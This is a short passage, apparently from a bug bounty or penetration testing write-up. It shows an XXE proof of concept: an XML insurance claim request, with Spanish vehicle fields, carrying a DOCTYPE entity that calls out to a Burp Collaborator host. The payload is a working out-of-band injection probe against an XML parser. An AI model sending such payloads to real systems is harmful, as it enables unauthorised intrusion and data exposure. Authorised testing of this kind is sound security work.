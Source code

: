 ```xml
				<field name="Modelo" attributeid="6"/>
				<field name="Matrícula" attributeid="7">xx</field>
				<field name="Combustible" attributeid="9"/>
			</language>
		</userdata>
	</userdescription>
</xmlCase>
```

I tried a basic Proof of concept with Burp Collaborator:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://abc.burpcollaborator.net">]><xmlCase version="1.0">
	<phone>
		<imei />
	</phone>
	<ResponseQuestions>
		<Questions>
			<Question>
				<Answers>
					<Answer>
						<AnswerId>1</AnswerId>
						<TextAnswer>
							<Text>
								<LanguageCode>1</LanguageCode>
								<Message>Avería</Message>
							</Text>
						</TextAnswer>
						<Value>100</Value>
					</Answer>
				</Answers>
				<Order>1</Order>
				<QuestionId>1</QuestionId>
				<TextQuestion>
					<Text>
						<LanguageCode>1</LanguageCode>
						<Message>¿Qué ha sucedido?</Message>
					</Text>
				</TextQuestion>
			</Question>
		</Questions>
		<ReferenceId>ITPOLICY_0001</ReferenceId>
	</ResponseQuestions>
	<userdescription>
		<userdata>
			<language code="es">
				<field name="NIF" attributeid="3">xx</field>
				<field name="Tipo Vehiculo" attributeid="4">Moto</field>
				<field name="Marca" attributeid="5">Bmw </field>
				<field name="Modelo" attributeid="6"/>
				<field name="Matrícula" attributeid="7">xx</field>
				<field name="Combustible" attributeid="9"/>
			</language>
		</userdata>
	</userdescription>
</xmlCase>
```
